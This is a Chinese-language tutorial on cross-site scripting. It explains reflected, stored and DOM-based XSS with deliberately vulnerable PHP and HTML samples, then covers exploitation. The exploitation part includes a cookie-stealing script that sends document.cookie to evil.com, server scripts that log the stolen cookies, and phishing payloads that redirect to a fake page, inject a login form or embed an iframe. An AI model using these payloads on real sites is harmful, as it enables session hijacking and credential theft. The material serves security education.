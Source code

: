 XSS 跨站脚本攻击
================

XSS 简介
--------

跨站脚本（Cross-Site Scripting，XSS）是一种经常出现在 WEB 应用程序中的计算机安全漏洞，是由于 WEB 应用程序对用户的输入过滤不足而产生的。攻击者利用网站漏洞把恶意的脚本代码注入到网页中，当其他用户浏览这些网页时，就会执行其中的恶意代码，对受害用户可能采取
Cookies 资料窃取、会话劫持、钓鱼欺骗等各种攻击。

反射型 XSS
~~~~~~~~~~

反射型跨站脚本（Reflected Cross-Site Scripting）是最常见，也是使用最广的一种，可将恶意脚本附加到 URL 地址的参数中。

反射型 XSS 的利用一般是攻击者通过特定手法（如电子邮件），诱使用户去访问一个包含恶意代码的 URL，当受害者点击这些专门设计的链接的时候，恶意代码会直接在受害者主机上的浏览器执行。此类 XSS 通常出现在网站的搜索栏、用户登录口等地方，常用来窃取客户端 Cookies 或进行钓鱼欺骗。

服务器端代码：

.. code:: php

    <?php 
    // Is there any input? 
    if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) { 
        // Feedback for end user 
        echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>'; 
    } 
    ?>

可以看到，代码直接引用了 ``name`` 参数，并没有做任何的过滤和检查，存在明显的 XSS 漏洞。

持久型 XSS
~~~~~~~~~~

持久型跨站脚本（Persistent Cross-Site Scripting）也等同于存储型跨站脚本（Stored Cross-Site Scripting）。

此类 XSS 不需要用户单击特定 URL 就能执行跨站脚本，攻击者事先将恶意代码上传或储存到漏洞服务器中，只要受害者浏览包含此恶意代码的页面就会执行恶意代码。持久型 XSS 一般出现在网站留言、评论、博客日志等交互处，恶意脚本存储到客户端或者服务端的数据库中。

服务器端代码：

.. code:: php

    <?php
      if( isset( $_POST[ 'btnSign' ] ) ) {
        // Get input
        $message = trim( $_POST[ 'mtxMessage' ] );
        $name    = trim( $_POST[ 'txtName' ] );
        // Sanitize message input
        $message = stripslashes( $message );
        $message = mysql_real_escape_string( $message );
        // Sanitize name input
        $name = mysql_real_escape_string( $name );
        // Update database
        $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
        $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
        //mysql_close(); }
    ?>

代码只对一些空白符、特殊符号、反斜杠进行了删除或转义，没有做 XSS 的过滤和检查，且存储在数据库中，明显存在存储型 XSS 漏洞。

DOM XSS
~~~~~~~

传统的 XSS 漏洞一般出现在服务器端代码中，而 DOM-Based XSS 是基于 DOM 文档对象模型的一种漏洞，所以，受客户端浏览器的脚本代码所影响。客户端 JavaScript 可以访问浏览器的 DOM 文本对象模型，因此能够决定用于加载当前页面的 URL。换句话说，客户端的脚本程序可以通过 DOM 动态地检查和修改页面内容，它不依赖于服务器端的数据，而从客户端获得 DOM 中的数据（如从 URL 中提取数据）并在本地执行。另一方面，浏览器用户可以操纵 DOM 中的一些对象，例如 URL、location 等。用户在客户端输入的数据如果包含了恶意 JavaScript 脚本，而这些脚本没有经过适当的过滤和消毒，那么应用程序就可能受到基于 DOM 的 XSS 攻击。

HTML 代码：

.. code:: html

    <html>
      <head>
        <title>DOM-XSS test</title>
      </head>
      <body>
        <script>
          var a=document.URL;
          document.write(a.substring(a.indexOf("a=")+2,a.length));
        </script>
      </body>
    </html>

将代码保存在 domXSS.html 中，浏览器访问：

::

    http://127.0.0.1/domXSS.html?a=<script>alert('XSS')</script>

即可触发 XSS 漏洞。

XSS 利用方式
------------

Cookies 窃取
~~~~~~~~~~~~

攻击者可以使用以下代码获取客户端的 Cookies 信息：

.. code:: html

    <script>
    document.location="http://www.evil.com/cookie.asp?cookie="+document.cookie
    new Image().src="http://www.evil.com/cookie.asp?cookie="+document.cookie
    </script>
    <img src="http://www.evil.com/cookie.asp?cookie="+document.cookie></img>

在远程服务器上，有一个接受和记录 Cookies 信息的文件，示例如下：

.. code:: asp

    <%
      msg=Request.ServerVariables("QUERY_STRING")
      testfile=Server.MapPath("cookie.txt")
      set fs=server.CreateObject("Scripting.filesystemobject")
      set thisfile=fs.OpenTextFile(testfile,8,True,0)
      thisfile.Writeline(""&msg& "")
      thisfile.close
      set fs=nothing
    %>

.. code:: php

    <?php
    $cookie = $_GET['cookie'];
    $log = fopen("cookie.txt", "a");
    fwrite($log, $cookie . "\n");
    fclose($log);
    ?>

攻击者在获取到 Cookies 之后，通过修改本机浏览器的 Cookies，即可登录受害者的账户。

会话劫持
~~~~~~~~

由于使用 Cookies 存在一定的安全缺陷，因此，开发者开始使用一些更为安全的认证方式，如 Session。在 Session 机制中，客户端和服务端通过标识符来识别用户身份和维持会话，但这个标识符也有被其他人利用的可能。会话劫持的本质是在攻击中带上了 Cookies 并发送到了服务端。

如某 CMS 的留言系统存在一个存储型 XSS 漏洞，攻击者把 XSS 代码写进留言信息中，当管理员登录后台并查看是，便会触发 XSS 漏洞，由于 XSS 是在后台触发的，所以攻击的对象是管理员，通过注入 JavaScript 代码，攻击者便可以劫持管理员会话执行某些操作，从而达到提升权限的目的。

比如，攻击者想利用 XSS 添加一个管理员账号，只需要通过之前的代码审计或其他方式，截取到添加管理员账号时的 HTTP 请求信息，然后使用 XMLHTTP 对象在后台发送一个 HTTP 请求即可，由于请求带上了被攻击者的 Cookies，并一同发送到服务端，即可实现添加一个管理员账户的操作。

钓鱼
~~~~

-  重定向钓鱼

把当前页面重定向到一个钓鱼页面。

::

  http://www.bug.com/index.php?search="'><script>document.location.href="http://www.evil.com"</script>

-  HTML 注入式钓鱼

使用 XSS 漏洞注入 HTML 或 JavaScript 代码到页面中。

::

  http://www.bug.com/index.php?search="'<html><head><title>login</title></head><body><div style="text-align:center;"><form Method="POST" Action="phishing.php" Name="form"><br /><br />Login:<br/><input name="login" /><br />Password:<br/><input name="Password" type="password" /><br/><br/><input name="Valid" value="Ok" type="submit" /><br/></form></div></body></html>

该段代码会在正常页面中嵌入一个 Form 表单。

-  iframe 钓鱼

这种方式是通过 ``<iframe>`` 标签嵌入远程域的一个页面实施钓鱼。

::

  http://www.bug.com/index.php?search='><iframe src="http://www.evil.com" height="100%" width="100%"</iframe>

-  Flash 钓鱼

将构造好的 Flash 文件传入服务器，在目标网站用 ``<object>`` 或 ``<embed>`` 标签引用即可。

-  高级钓鱼技术

注入代码劫持 HTML 表单、使用 JavaScript 编写键盘记录器等。

网页挂马
~~~~~~~~

一般都是通过篡改网页的方式来实现的，如在 XSS 中使用 ``<iframe>`` 标签。

DOS 与 DDOS
~~~~~~~~~~~

注入恶意 JavaScript 代码，可能会引起一些拒绝服务攻击。

XSS 蠕虫
~~~~~~~~

通过精心构造的 XSS 代码，可以实现非法转账、篡改信息、删除文章、自我复制等诸多功能。
